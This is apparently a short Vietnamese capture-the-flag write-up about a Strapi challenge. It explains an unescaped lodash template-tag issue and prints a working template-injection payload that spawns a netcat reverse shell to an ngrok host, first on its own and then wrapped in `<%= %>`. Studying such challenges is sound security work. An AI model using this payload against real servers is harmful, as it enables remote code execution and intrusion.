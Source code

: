 ## Strapi

Bài này mình không giải được, tìm thấy lỗ hổng rồi nhưng mà cái plugin rối quá lười làm cmnl.

https://github.com/strapi/strapi/issues/16730

Bug của nó là do `<%- value %>` không hoạt động được nên strapi nó không cấm `<%= value %>` và để người dùng tự filter. Do đó tác giả sử dụng lỗ hổng này và không filter gì cả. 

Trong issue trên cũng nói này là của lodash nên mình có search ra payload sau:
```js
${x=Object}${w=a=new x}${w.type="pipe"}${w.readable=1}${w.writable=1}${a.file="/bin/sh"}${a.args=["/bin/sh","-c","rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.ap.ngrok.io 17965 >/tmp/f"]}${a.stdio=[w,w]}${process.binding("spawn_sync").spawn(a).output}
```
Link: https://twitter.com/rootxharsh/status/1268181937127997446

Payload reverse shell lấy ở [đây](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-busybox).

Full payload:
```js
<%= `${x=Object}${w=a=new x}${w.type="pipe"}${w.readable=1}${w.writable=1}${a.file="/bin/sh"}${a.args=["/bin/sh","-c","rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.ap.ngrok.io 17965 >/tmp/f"]}${a.stdio=[w,w]}${process.binding("spawn_sync").spawn(a).output}` %>
```